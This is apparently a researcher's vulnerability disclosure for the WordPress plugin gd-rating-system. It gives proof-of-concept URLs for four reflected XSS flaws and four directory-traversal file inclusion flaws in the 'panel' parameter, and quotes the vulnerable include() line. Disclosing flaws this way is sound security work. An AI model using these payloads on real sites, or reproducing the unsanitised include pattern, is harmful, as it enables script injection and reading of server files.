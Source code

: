 Well ,sir ,I just found some XSS bugs and LFI(Local File Include) bug here.

#### ADLab of Venustech

The report link to the wordpress-form is missing, because the manager do not wish to put the public in danger ,I'll just write some details here.

#### XSS

Here different php files suffer from the bug, exactly, some other files also don't filter well.

##### XSS1

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss%2F)%3E%3C%27%22
```

##### XSS2

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss2%2F)%3E%3C%27%22
```


##### XSS3


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss3%2F)%3E%3C%27%22
```


##### XSS4


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss4%2F)%3E%3C%27%22
```


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/xss.png)

### LFI

Here we use the bug to include the "phpinfo.php" file in the wwwroot, exactly, we can include or read any file in the webserver.

##### LFI1 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/information.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

##### LFI2 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/about.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI3 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/transfer.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI4 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/tools.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/lfi.png)


Well,  by the way, I just test these bugs in the wordpress 4.9.1 and the latest version of the wp-plugin gd-rating-system.
